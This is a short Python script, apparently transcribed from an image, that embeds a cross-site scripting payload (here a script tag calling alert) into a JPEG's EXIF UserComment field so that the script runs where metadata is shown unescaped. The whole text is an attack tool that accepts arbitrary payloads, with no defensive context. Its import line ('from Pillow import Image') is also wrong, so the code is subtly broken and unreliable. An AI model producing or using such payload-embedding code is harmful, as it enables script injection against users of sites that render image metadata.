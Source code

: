 from Pillow import Image
import piexif
def embed_xss_payload(image_path, output_path, payload):
    try:
        img = Image.open(image_path)
        exif_dict = piexif.load(img.info.get("exif", b""))
        payload_bytes = payload.encode("utf-8")
        exif_dict["Exif"][piexif.ExifIFD.UserComment] = payload_bytes
        exif_bytes = piexif.dump(exif_dict)
        img.save(output_path, "jpeg", exif=exif_bytes)
        print(f"Payload successfully embedded into {output_path}")
    except Exception as e:
        print(f"Error embedding payload: {e}")
if __name__ == "__main__":
    input_image = "input.jpg"
    output_image = "output_with_payload.jpg"
    xss_payload = "<script>alert('XSS');</script>"
    embed_xss_payload(input_image, output_image, xss_payload)
